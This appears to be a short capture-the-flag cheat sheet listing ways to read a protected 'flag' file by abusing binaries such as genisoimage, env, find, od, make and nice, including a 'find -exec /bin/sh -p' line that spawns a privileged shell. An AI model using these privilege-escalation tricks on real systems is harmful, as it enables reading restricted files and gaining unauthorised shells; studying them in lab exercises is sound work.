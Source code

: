 
## genisoimage

```bash
genisoimage -o output.iso flag
sudo mount -o loop output.iso /mnt/iso
cat /mnt/iso/flag
```

Creates an ISO containing the flag and mounts it to read the file.


## env

```bash
env MESSAGE=$(<flag) echo $MESSAGE
```

Injects the flag into an environment variable and prints it.


## find

```bash
find flag -exec /bin/sh -p \;
```

Uses **`find`** with **`-exec`** to spawn a shell with privileges.

In the new shell:

```bash
cat flag
```


## od

```bash
od -t c flag
```

Prints the flag in ASCII format using **`od`**.


## make

```bash
make -f /dev/stdin <<<"read_file: ; cat /flag"
```

Defines a temporary Makefile rule to print the flag.


## nice

```bash
nice cat /flag
```
